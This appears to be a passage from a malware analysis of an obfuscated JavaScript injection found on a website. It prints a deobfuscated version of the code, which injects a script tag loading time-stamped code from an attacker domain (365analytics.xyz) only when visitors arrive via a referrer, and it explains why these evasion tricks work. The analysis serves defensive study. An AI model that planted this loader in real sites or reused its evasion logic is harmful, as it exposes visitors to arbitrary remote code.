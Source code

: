 Through deobfuscation and code analysis, we determined that this code performs several key functions:

1. It defines lookup tables (`_0x2bda()`) to hold strings that are accessed by numeric indices
2. It provides a resolver function (`_0x442d()`) that retrieves strings from the lookup table
3. It uses mathematical operations to perform simple obfuscation of numeric constants
4. It includes a base64-encoded string (`bG9hZC4zNjVhbmFseXRpY3MueHl6`) which decodes to `load.365analytics.xyz`
5. It creates a timestamped URL based on the current time, rounded to specific intervals
6. It dynamically injects a script tag into the DOM, pointing to the constructed URL

### Deobfuscated Code Behavior

When translated to clean JavaScript, the malicious code operates as follows:

```javascript
(function(document) {
  // Only proceed if the page was accessed via another site (has a referrer)
  if (!document.referrer) return;

  // Calculate timestamps
  var now = Math.floor(Date.now() / 1000);            // Current time in seconds
  var roundedHour = now - (now % 3600);               // Round to nearest hour
  var roundedTimestamp = now - (now % 600);           // Round to nearest 10 minutes
  var versionHex = roundedTimestamp.toString(16);     // Convert to hexadecimal

  // Decode the domain name from base64
  const domain = atob("bG9hZC4zNjVhbmFseXRpY3MueHl6");  // = "load.365analytics.xyz"
  
  // Create a new script element
  var s = document.createElement("script");
  s.type = "text/javascript";
  s.async = true;
  s.src = "https://" + domain + "/my.counter." + roundedHour + ".js?ver=" + versionHex;
  
  // Add the script to the document
  document.getElementsByTagName("head")[0].appendChild(s);
})(document);
```

This technique allows the attacker to:

1. Avoid detection by only activating when a user arrives from another site
2. Generate a unique script URL based on time, making static detection and blocking challenging
3. Dynamically load malicious code that can be altered on the attacker's server at any time
4. Maintain persistence even if security tools scan for known malicious URLs

It's actually a really clever approach... if it wasn't criminal and all that.
### Command & Control Infrastructure

After identifying the suspicious domain, we performed detailed infrastructure analysis:

Domain information:

- Name: `365analytics.xyz`
- Registration Date: January 3, 2025
- Registrar: NameSilo, LLC
- Privacy Protection: PrivacyGuardian.org
- Name Servers: NS1.DNSOWL.COM, NS2.DNSOWL.COM, NS3.DNSOWL.COM
